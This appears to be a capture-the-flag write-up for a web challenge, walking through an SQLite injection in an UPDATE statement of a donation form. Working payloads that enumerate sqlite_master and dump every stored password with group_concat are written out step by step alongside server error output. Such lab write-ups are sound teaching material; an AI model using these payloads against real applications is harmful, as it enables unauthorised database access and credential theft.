





# Startup Company

## Challenge Description:



## Reconnaissance

Launching the instance shows a login page. 



Initially, I thought this was another one of the SQLi login auth bypass challenges, but some common checks did not work. Only then did I notice the small “Register” at the top. 

I created an account with the name “admin” to see if the site throws an error, but it just lets me. 



Shameless much, are we? Asking for donations from your users, and even before giving a product. 

I messed around with the contribution feature a bit before looking at the source code. 



So theres a hidden captcha for verification purposes I assume. But I was more drawn towards the `input type="number"`. Normally, when I tried inputting non-digit characters, it does not let me. But, is that purely front end? Is the backend trusting front end blindly? There is always a chance. 

I loaded up burpsuite to test this theory. 

With the form data as `captcha=29&moneys=wasd`, gives `Invalid captcha.` I took a new captcha by refreshing the webpage, and I get a `302 Found` response.

```
HTTP/1.1 302 Found
Date: Tue, 12 May 2026 13:04:41 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

```

I sent a simple `'` for the `moneys` value. 

```html
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, near &quot;admin&quot;: syntax error in <b>/var/www/html/contribute.php</b> on line <b>11</b><br />
Database error.
```

## SQL Injection Attack

So the server also uses my username to update the table since it returned my username in the error message. 

Trying the payload `' order by --` gives:

```html
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, ORDER BY without LIMIT on UPDATE in <b>/var/www/html/contribute.php</b> on line <b>11</b><br />
Database error.
```

The server uses UPDATE to update the contribution via the username. sqlite requires a `LIMIT` when using `ORDER BY` in an `UPDATE` statement which returns the error. I assume the query looks something like

```sql
UPDATE table_name
SET 
	contribution = <POST.moneys>
WHERE 
	username = <SESSION.username>
```

Here, `POST.moneys` is reflected on the webpage. 

`UNION SELECT` was out of the question since the first query is `UPDATE` and `UNION` operates only on `SELECT` queries. 

Then, I tried ending the initial statement early to start a new `SELECT` statement, but I quickly dropped this idea since to end the initial statement, I needed to close the original making `contribution = ''` . This means nothing would be reflected on the page. 

So the `SELECT` subquery is needed to extract database schema and the output of the statement should be saved to the money column. I used `||` to concatenate the `SELECT` statement with the `POST.moneys` which allows the expression to remain valid while updating the column with my injected input.

The payload I used initially was `' || (SELECT name FROM sqlite_master WHERE type='table')` but this throws an error. 

```sql
Warning: SQLite3::query(): Unable to prepare statement: 1, near "' WHERE nameuser='": syntax error in /var/www/html/contribute.php on line 11
Database error.
```

Silly mistake I forgot the comments.  With the payload above, the trailing `'` after table causes the error. 

```sql
UPDATE table_name
SET 
	contribution = '' || (SELECT name FROM sqlite-master WHERE type='table')'
WHERE 
	username = <SESSION.username>
```

To fix this, the ‘ can just be ignored via comments. So the payload becomes 

`' || (SELECT name FROM sqlite_master WHERE type='table')--` 


The column `nameuser` exists is visible from the error message above, but other columns are also needed like the password column for instance. In sqlite, the columns can be extracted by looking at the original query used to create that table which is stored within the `sql` column in the `sqlite_master` table.  

The payload to enumerate columns is `' || (SELECT sql FROM sqlite_master WHERE name='startup_users')--` 



Since the original statement only reflected one column (money), trying to `SELECT` both `nameuser` and `wordpass` will give an error. So I focused on password first since that is where the flag normally is. 

`' || (SELECT wordpass FROM startup_users) --` 


Ok so it is limited to a single row. I used `group_concat()` to show all entries in `wordpass` in the same line. 

`' || (SELECT group_concat(wordpass) FROM startup_users)--`  


And thats the flag. Pretty nice challenge.